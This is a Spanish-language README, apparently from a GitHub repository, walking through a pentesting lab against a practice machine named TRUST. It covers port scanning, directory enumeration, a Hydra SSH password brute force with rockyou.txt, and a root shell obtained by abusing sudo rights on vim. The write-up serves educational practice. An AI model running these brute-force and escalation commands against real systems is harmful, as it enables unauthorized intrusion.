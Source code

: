 # Lab de Pentesting: Escalada de privilegios en máquina TRUST

Este repositorio documenta el proceso paso a paso para comprometer y escalar privilegios en la máquina objetivo con IP \`172.18.0.2\`.

---

## Resumen

El objetivo principal fue identificar servicios activos, realizar enumeración, obtener acceso mediante fuerza bruta y finalmente escalar privilegios para obtener control total del sistema.

---

## Herramientas utilizadas

- \`ping\`
- \`nmap\`
- \`gobuster\`
- \`hydra\`
- \`ssh\`
- \`vim\`
- Diccionario \`rockyou.txt\`

---

## Pasos realizados

### 1. Verificar conectividad con ping

\`\`\`bash
ping -c 4 172.18.0.2
\`\`\`

![Ping a la IP](screenshots/ping.PNG)

Se confirmó que el objetivo responde a la red.

---

### 2. Escaneo completo de puertos con Nmap

\`\`\`bash
nmap -sV -sC -p- 172.18.0.2 --open -oN scanPuertos.txt
\`\`\`

Detectamos los puertos abiertos:
- Puerto 22 (SSH)
- Puerto 80 (HTTP)

---

### 3. Enumeración de directorios HTTP con Gobuster

\`\`\`bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://172.18.0.2 -x php,html,xml,txt,json
\`\`\`

Se descubrió el archivo \`secret.php\`.

---

### 4. Análisis del archivo \`secret.php\`

Al visitar \`http://172.18.0.2/secret.php\` encontramos un nombre: **Mario**.

---

### 5. Ataque de fuerza bruta SSH con Hydra

Intentamos acceder vía SSH con el usuario \`mario\` usando el diccionario \`rockyou.txt\`:

\`\`\`bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -v ssh://172.18.0.2
\`\`\`

Se logró obtener la contraseña correcta.

---

### 6. Acceso vía SSH

Conectamos exitosamente a la máquina como usuario \`mario\`.

---

### 7. Enumeración para escalada de privilegios

Ejecutamos:

\`\`\`bash
sudo -l
\`\`\`

Se observó que \`mario\` puede ejecutar \`vim\` con privilegios de root sin contraseña.

---

### 8. Explotación para obtener shell root

Usando la técnica encontrada en [GTFOBins - Vim](https://gtfobins.github.io/), ejecutamos:

\`\`\`bash
sudo vim -c ':!/bin/sh'
\`\`\`

Conseguimos un shell con privilegios root y control total de la máquina.

---

## Resultados finales

- Acceso root conseguido en la máquina objetivo.
- Escalada de privilegios exitosa mediante abuso de sudo con vim.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
